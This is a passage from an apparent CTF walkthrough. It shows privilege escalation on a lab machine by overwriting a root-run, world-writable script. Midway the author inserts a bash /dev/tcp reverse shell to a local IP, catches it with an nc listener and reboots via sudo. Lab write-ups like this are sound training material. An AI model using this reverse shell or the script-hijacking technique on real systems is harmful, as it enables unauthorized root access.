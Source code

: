 ![evidence](./static/18-pspy.png)

And every second the root user is running the file `/usr/bin/check-system`, when I check the permissions of that file:
```shell
$ tre@tre:~$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
```
Then I was surprised that I can modify that filem and that I had not seen it before. When I check again the previous tools I used, `find` and `LinPEAS`, then I can see that the file was always showing up in the results
And I just ignored it. When I check the content of the file:
```shell
$ tre@tre:~$ cat /usr/bin/check-system
...SNIPPED...
while :
do
echo "Checking...";
sleep 1;
done
```
Then I can that the script prints an echo message every second, and I could change the content of the script to perform a reverse shell, and if I will reboot the machine with sudo privileges, then the modified `check-system` file will be executed, and now, I am gonna try it. When I use the `nano` command to edit the `check-system` file, and I replace the `while` loop with:
```shell
bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I run the `shutdown` command:
```shell
$ tre@tre:~$ sudo /sbin/shutdown -r
```
Then the target machine reboots, but the reverse shell does not work, and I decided to try putting the payload inside the `while` loop, when I modify the `check-system` file with:
```bash
```